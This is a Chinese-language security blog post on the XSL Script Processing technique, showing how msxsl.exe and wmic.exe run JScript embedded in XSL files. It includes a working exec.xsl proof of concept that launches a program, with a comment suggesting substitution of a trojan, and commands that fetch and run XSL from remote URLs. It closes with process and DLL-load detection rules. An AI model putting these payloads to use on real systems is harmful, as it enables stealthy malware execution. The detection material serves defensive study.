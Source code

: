 # XSL Script Processing


XSL是指扩展样式表语言(Extension Stylesheet Language)



`msxsl.exe`是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令，下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=21714

执行该工具需要用到2个文件，分别为`XML`及`XSL`文件，msxsl命令行接受参数形式如下：

```bash
msxsl.exe {xmlfile} {xslfile}

# 调用文件内的命令
msxsl.exe {xslfile} {xslfile}
```



### 命令执行

#### 技术复现（MSXSL.EXE）

##### 本地执行

test.xml

```xml
<?xml version="1.0"?>

<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>

<customers>

<customer>

<name>Microsoft</name>

</customer>

</customers>
```

exec.xsl

```xml
<?xml version="1.0"?>

<xsl:stylesheet version="1.0"

xmlns:xsl="http://www.w3.org/1999/XSL/Transform"

xmlns:msxsl="urn:schemas-microsoft-com:xslt"

xmlns:user="http://mycompany.com/mynamespace">

 

<msxsl:script language="JScript" implements-prefix="user">

   function xml(nodelist) {

var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");

    //这里可以改造为执行你的木马文件如：

	// var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & shell.exe");

   return nodelist.nextNode().xml;

 

   }

</msxsl:script>

<xsl:template match="/">

   <xsl:value-of select="user:xml(.)"/>

</xsl:template>

</xsl:stylesheet>
```

执行

```bash
msxsl.exe test.xml exec.xsl
```





##### 远程执行

```bash
msxsl.exe https://raw.githubusercontent.com/xx/master/test.xml  https://raw.githubusercontent.com/xx/master/exec.xsl


```







#### 技术复现（WMIC.EXE）

wmic可通过如下方式执行xsl内的恶意代码

```bash
wmic.exe {wmic_cmd} /FORMAT:{xsl_file}
```

##### 本地执行

```bash
wmic.exe process get name /format:exec.xsl
```



##### 远程执行

```bash
wmic.exe process get name /format:http:/www.xxx.com/exec.xsl
```



https://www.cnblogs.com/backlion/p/10489916.html



### 威胁检测

**数据源：** 进程监视、进程命令行参数、网络的进程使用、DLL监视

#### msxsl.exe

进程特征：

```bash
# 当msxsl.exe作为父进程创建其他进程时视为可疑
ParentImage regex '^.*msxsl\.exe$'
```

加载项特征：

```bash
#当msxsl.exe加载jscript.dll时视为可疑
Image regex '^.*msxsl\.exe$' AND ImageLoaded contains 'jscript.dll'
```



#### wmic.exe

加载项特征

```bash
#当wmic.exe加载jscript.dll时视为可疑
Image regex '^.*wmic\.exe$' AND ImageLoaded contains 'jscript.dll'
```



### 通过MSXSL方式进行鱼叉式网络钓鱼

有年头的参考文章：https://www.anquanke.com/post/id/159316







---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/xsl-script-processing/  

